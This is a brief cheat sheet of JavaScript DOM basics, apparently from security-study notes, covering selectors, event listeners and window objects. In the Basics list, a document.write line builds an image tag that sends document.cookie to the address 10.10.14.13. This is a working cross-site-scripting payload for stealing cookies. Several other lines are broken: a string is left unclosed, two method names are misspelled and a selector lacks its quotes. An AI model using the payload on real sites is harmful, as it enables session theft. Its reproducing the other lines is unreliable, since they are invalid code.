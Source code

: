 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> 
> document.getElementById('1');
> 
> document.getElementByTagName('div');
> 
> document.getElementByClassName('list-items');
> 
> document.querySelector(#main-heading);
> 
> document.querySelectorAll('div');
> 
> 
> document.write('something');
> 
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
>element.addEventListener("click", function);
>
>element.addEventListener("mouseover", function);
>

### Window Objects

> window.alert('1');
> 
> alert(prompt());
>
> window.location = "http://127.0.0.1"
